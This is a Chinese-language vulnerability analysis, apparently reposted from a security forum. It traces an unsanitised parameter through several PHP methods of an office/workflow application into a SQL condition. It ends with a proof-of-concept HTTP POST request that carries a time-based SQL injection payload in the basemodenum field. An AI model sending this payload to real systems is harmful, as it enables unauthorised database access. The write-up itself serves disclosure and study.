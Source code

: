   
在21行代码中调用getuserid方法对 $adminid 参数进行了查询  并且在22行代码可以得知 需要让21行的查询获得数据 不然会直接报错终止  
  
  
根据查看sql语句可以得知 查询的内容在admin表中  分析可知 最简单方法的就是传入一个1 即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUiclwfzUC99zKticghIuMDnvUT36Unh07tJrZFQeUyWYIBUmsPdYb0bog/640?wx_fmt=png&from=appmsg "")  
  
  
  
继续分析代码 查看querydata方法获得了三个参数做了什么操作  看代码发现 在方法中将传入的 $modenum 也就是 $num 传入了initflow方法中  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUsw6YlMMYCF0bZibGTtUKaDouzbITxOAS33cRicibUIvXdbIBciaFOeWR0g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUUsklF6JBORrXEhwVuNneWHHeHEGdl4gbR10iaTkp0BAguhDRPkIvknA/640?wx_fmt=png&from=appmsg "")  
  
  
继续跟进initflow方法 发现又被传入了initdata 方法中   
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUMSm5lHGh8iacA24JIBHYgTdSFTnRwQGyW1tm0BZm9baKAEl4GbkzRfA/640?wx_fmt=png&from=appmsg "")  
  
  
  
在这里 $num 的值被添加到了sql的一个条件语句中被执行 其中无任何限制 这样我们就可以开始构造poc 进行利用  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OU1KKwIrLEfDjOibBT5owj6yMPc1NczCLUYdMo2c1PQcbFxZEUz9nibkhA/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞利用  
  
#### poc  

```
POST /index.php?m=openbase%7Copenapi&d=task&a=querydata HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 58
Cookie: 


{&#34;baseoptid&#34;:&#34;1&#34;,&#34;basemodenum&#34;:&#34;a123456' OR SLEEP(0.01)#&#34;}
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUfxJwg9lQOTafJ0zzhHAOs9bJb0kuolOEb3fzGZdf5EJgp4iboE5OC0A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicP0ic1VCAkibxxasAHd4Lb7OUFr31gSTIOVSSQsfRl3HJl2icNLia2CDL7VgI6U4RVutf1Q8G0OrUj2dw/640?wx_fmt=png&from=appmsg "")  
####   
  
  
  
来源：  
https://xz.aliyun.com/news/18185  
  
